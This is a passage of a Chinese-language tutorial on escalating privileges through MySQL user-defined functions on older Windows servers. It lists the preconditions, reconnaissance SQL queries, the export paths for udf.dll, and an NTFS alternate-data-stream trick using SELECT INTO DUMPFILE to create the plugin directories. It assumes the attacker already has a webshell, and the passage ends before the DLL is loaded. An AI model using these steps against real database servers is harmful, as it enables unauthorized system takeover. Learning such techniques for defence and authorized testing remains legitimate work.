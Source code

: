 有三种方法向MySQL添加新函数。

(1)可以通过用户定义的函数(UDF)接口添加函数。用户定义的函数被编译为库文件，然后使用CREATE FUNCTION和DROP FUNCTION语句动态添加到服务器或从服务器中删除。

(2)可以将函数添加为本机(内置)MySQL函数。本机函数被编译到 mysqld服务器并永久可用。

(3)添加函数的另一种方法是创建存储的函数。这些是使用SQL语句编写的，而不是通过编译目标代码。

## **二、Windows下UDF提权的条件和方法**

Windows下UDF提权对于Windows2008以下服务器比较适用，也即针对Windows2000、Windows2003的成功率较高。

udf = 'user defined function'，即‘用户自定义函数’。是通过添加新函数，对MYSQL的功能进行扩充，性质就象使用本地MYSQL函数如abs()或concat()。udf在mysql5.1以后的版本中，存在于‘mysql/lib/plugin’目录下，文件后缀为‘.dll’，常用c语言编写。

### **1. UDF提权条件**

(1)Mysql版本大于5.1版本udf.dll文件必须放置于MYSQL安装目录下的lib\plugin文件夹下。

(2)Mysql版本小于5.1版本。udf.dll文件在Windows2003下放置于c:\windows\system32，在windows2000下放置于c:\winnt\system32。

(3)掌握的mysql数据库的账号有对mysql的insert和delete权限以创建和抛弃函数，一般以root账号为佳，具备root账号所具备的权限的其它账号也可以。

(4)可以将udf.dll写入到相应目录的权限。

### **2.提权方法**

**(1)获取数据库版本、数据位置以及插件位置等信息**

```sql
1. select version();//获取数据库版本 
2. select user();//获取数据库用户 
3. select @@basedir ;//获取安装目录 
4. show variables like '%plugins%'; //寻找mysql安装路径 
```

**(2)导出路径**

```sql
1. C:\Winnt\udf.dll Windows 2000 
2. C:\Windows\udf.dll Windows2003(有的系统被转义，需要改为C:Windowsudf.dll) 
```

MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib/plugin文件夹下才能创建自定义函数。该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。

在某些情况下，我们会遇到**Can't open shared library**的情况，这时就需要我们把udf.dll导出到`F:\Website\phpstudy\PHPTutorial\MySQL\lib\plugin`目录下才可以，网上大牛发现利用NTFS ADS流来创建文件夹的方法：

```sql
select @@basedir; //查找到mysql的目录 
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录 
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录 

执行成功以后就会plugin目录，然后再进行导出udf.dll即可。
```
